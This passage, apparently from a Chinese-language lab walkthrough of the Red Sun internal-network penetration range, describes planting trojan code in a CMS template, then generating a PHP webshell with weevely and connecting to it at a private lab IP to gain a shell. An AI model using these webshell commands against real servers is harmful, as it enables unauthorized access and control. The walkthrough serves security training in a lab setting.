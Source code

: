

在全局设置中的前台模板中，我们可以修改模板文件，我们可以将木马代码插入其中并进行加载

![image-20210806141921572](红日靶场内网渗透.assets/image-20210806141921572.png)





通过上述的一些方法将一句话木马上传到目标web服务器中，然后使用webshell工具去连接目标路径的木马，拿到web服务器的shell和权限

使用weevely生成木马文件test.php,并将其上传到目标web服务器上

```
weevely generate password(密码)  test.php(生成文件名)
```

![image-20210806144420340](红日靶场内网渗透.assets/image-20210806144420340.png)



然后去连接服务器上的test.php文件，连接建立会话成功

weevely  http://172.16.243.130/test.php(文件路径)  password(密码)

![image-20210806144559145](红日靶场内网渗透.assets/image-20210806144559145.png)
